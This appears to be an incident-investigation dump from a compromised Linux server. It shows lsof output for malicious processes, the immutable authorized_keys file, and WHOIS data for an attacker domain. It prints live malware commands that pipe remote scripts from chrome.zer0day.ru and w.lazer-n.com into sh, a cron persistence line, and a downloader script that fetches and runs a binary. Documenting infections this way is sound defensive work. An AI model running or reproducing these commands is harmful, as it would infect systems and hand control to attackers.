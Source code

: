 /root/.ssh/
[root@master .ssh]# chmod 777 authorized_keys
chmod: changing permissions of 'authorized_keys': Operation not permitted
[root@master .ssh]# lsattr
----ia-------e-- ./authorized_keys
-------------e-- ./id_rsa.pub
-------------e-- ./id_rsa
-------------e-- ./known_hosts


[root@master ~]# lsof -c gtdb
COMMAND  PID USER   FD      TYPE    DEVICE SIZE/OFF      NODE NAME
gtdb    6055 root  cwd       DIR     253,1     4096         2 /
gtdb    6055 root  rtd       DIR     253,1     4096         2 /
gtdb    6055 root  txt       REG     253,1  1789280   1095108 /etc/gtdb
gtdb    6055 root  mem       REG     253,1   106848   1052398 /usr/lib64/libresolv-2.17.so
gtdb    6055 root  mem       REG     253,1    31824   1052386 /usr/lib64/libnss_dns-2.17.so
gtdb    6055 root  mem       REG     253,1    62184   1052388 /usr/lib64/libnss_files-2.17.so
gtdb    6055 root  mem       REG     253,1  2173512   1052370 /usr/lib64/libc-2.17.so
gtdb    6055 root  mem       REG     253,1  1139680   1052378 /usr/lib64/libm-2.17.so
gtdb    6055 root  mem       REG     253,1    19776   1052376 /usr/lib64/libdl-2.17.so
gtdb    6055 root  mem       REG     253,1    44448   1052400 /usr/lib64/librt-2.17.so
gtdb    6055 root  mem       REG     253,1   144792   1052396 /usr/lib64/libpthread-2.17.so
gtdb    6055 root  mem       REG     253,1   164240   1052363 /usr/lib64/ld-2.17.so
gtdb    6055 root    0r     FIFO       0,9      0t0 955594937 pipe
gtdb    6055 root    1w     FIFO       0,9      0t0 955595793 pipe
gtdb    6055 root    2w     FIFO       0,9      0t0 955595793 pipe
gtdb    6055 root    3u  a_inode      0,10        0      6091 [eventpoll]
gtdb    6055 root    4r     FIFO       0,9      0t0 956023510 pipe
gtdb    6055 root    5w     FIFO       0,9      0t0 956023510 pipe
gtdb    6055 root    6r     FIFO       0,9      0t0 956024425 pipe
gtdb    6055 root    7w     FIFO       0,9      0t0 956024425 pipe
gtdb    6055 root    8u  a_inode      0,10        0      6091 [eventfd]
gtdb    6055 root    9r      CHR       1,3      0t0        18 /dev/null
gtdb    6055 root   10u     IPv4 956023519      0t0       TCP master:40796->47.102.251.102:13531 (ESTABLISHED)


[root@master ~]# lsof -p 22200
COMMAND   PID USER   FD   TYPE    DEVICE SIZE/OFF      NODE NAME
httpdz  22200 root  cwd    DIR     253,1     4096         2 /
httpdz  22200 root  rtd    DIR     253,1     4096         2 /
httpdz  22200 root  txt    REG     253,1   114626   1095046 /etc/httpdz
httpdz  22200 root  mem    REG     253,1   106848   1052398 /usr/lib64/libresolv-2.17.so
httpdz  22200 root  mem    REG     253,1    31824   1052386 /usr/lib64/libnss_dns-2.17.so
httpdz  22200 root  mem    REG     253,1    62184   1052388 /usr/lib64/libnss_files-2.17.so
httpdz  22200 root  mem    REG     253,1  2173512   1052370 /usr/lib64/libc-2.17.so
httpdz  22200 root  mem    REG     253,1    88776   1059833 /usr/lib64/libgcc_s-4.8.5-20150702.so.1
httpdz  22200 root  mem    REG     253,1  1139680   1052378 /usr/lib64/libm-2.17.so
httpdz  22200 root  mem    REG     253,1   991616   1052702 /usr/lib64/libstdc++.so.6.0.19
httpdz  22200 root  mem    REG     253,1   164240   1052363 /usr/lib64/ld-2.17.so
httpdz  22200 root    0r  FIFO       0,9      0t0 955594937 pipe
httpdz  22200 root    1w  FIFO       0,9      0t0 955595793 pipe
httpdz  22200 root    2w  FIFO       0,9      0t0 955595793 pipe
httpdz  22200 root    3u  IPv4 955596162      0t0       TCP master:49534->140.143.35.89:65283 (ESTABLISHED)


curl -fsSL http://chrome.zer0day.ru:5050/mrx1
http://chrome.zer0day.ru:5050/mrx1
/bin/sh -c curl -fsSL http://w.lazer-n.com:43768/lll.sh | sh
/bin/sh -c curl -fsSL http://w.lazer-n.com:43768/crontab.sh | sh
sh -c echo "*/12 * * * * curl -fsSL http://w.lazer-n.com:43768/crontab.sh | sh " >> '/var/spool/cron/root'
curl -fsSL http://chrome.zer0day.ru:5050/mrx1 | sh
bin/sh -c curl -fsSL http://chrome.zer0day.ru:5050/mrx1 | sh


[root@c53c0f80e98a /]# curl -fsSL http://w.lazer-n.com:43768/lll.sh
#!/bin/sh
bbdir="/usr/bin/curl"
bbdira="/usr/bin/url"
ccdir="/usr/bin/wget"
ccdira="/usr/bin/get"
x="/tmp/crloger27"
if [ -f "$x" ]
        then
                echo "ok"
        else
                rm -f /etc/initdz
                rm -f /tmp/initdz
                if [ -f "$bbdir" ]
                then
                        curl --connect-timeout 10 --max-time 30 --retry 3 http://w.lazer-n.com:43768/initdz > /tmp/crloger27
                elif [ -f "$bbdira" ]
                then
                        url --connect-timeout 10 --max-time 30 --retry 3 http://w.lazer-n.com:43768/initdz > /tmp/crloger27
                elif [ -f "$ccdir" ]
                then
                        wget --timeout=10 --tries=3 -O /tmp/crloger27 http://w.lazer-n.com:43768/initdz
                elif [ -f "$ccdira" ]
                then
                        get --timeout=10 --tries=3 -O /tmp/crloger27 http://w.lazer-n.com:43768/initdz
                fi
                chmod 777 /tmp/crloger27
                /tmp/crloger27
fi




WHOIS Results for：w.lazer-n.com
% [whois.apnic.net]
% Whois data copyright terms http://www.apnic.net/db/dbcopyright.html

% Information related to \'220.192.0.0 - 220.207.255.255\'

% Abuse contact for \'220.192.0.0 - 220.207.255.255\' is \'ipas@cnnic.cn\'

inetnum: 220.192.0.0 - 220.207.255.255
netname: UNICOM
descr: China Unicom
descr: No.21 Financial Street,Xicheng District,
descr: Beijing 100140 ,P.R.China
admin-c: YW6851-AP
tech-c: YW6851-AP
country: CN
mnt-by: MAINT-CNNIC-AP
mnt-irt: IRT-CNNIC-CN
mnt-lower: MAINT-CNNIC-AP
mnt-routes: MAINT-CNCGROUP-RR
status: ALLOCATED PORTABLE
last-modified: 2017-09-21T04:13:14Z
source: APNIC

irt: IRT-CNNIC-CN
address: Beijing, China
e-mail: ipas@cnnic.cn
abuse-mailbox: ipas@cnnic.cn
admin-c: IP50-AP
tech-c: IP50-AP
auth: # Filtered
remarks: Please note that CNNIC is not an ISP and is not
remarks: empowered to investigate complaints of network abuse.
remarks: Please contact the tech-c or admin-c of the network.
mnt-by: MAINT-CNNIC-AP
last-modified: 2017-11-01T08:57:39Z
source: APNIC

person: Yuzhen Zhao
address: No.21 Financial Street,Xicheng District,
address: Beijing 100140 ,P.R.China
country: CN
phone: +86-10-66258500
fax-no: +86-10-66259626
e-mail: zhaoyz3@chinaunicom.cn
e-mail: hqs-ipabuse@chinaunicom.cn
nic-hdl: YW6851-AP
mnt-by: MAINT-CNNIC-AP
last-modified: 2017-09-21T03:48:02Z
source: APNIC

% Information related to \'220.192.0.0/12AS4837\'

route: 220.192.0.0/12
descr: China Unicom Network
country: CN
origin: AS4837
mnt-by: MAINT-CNCGROUP-RR
last-modified: 2011-12-13T01:08:02Z
source: APNIC

% This query was served by the APNIC Whois Service version 1.88.15-46 (WHOIS-NODE1)
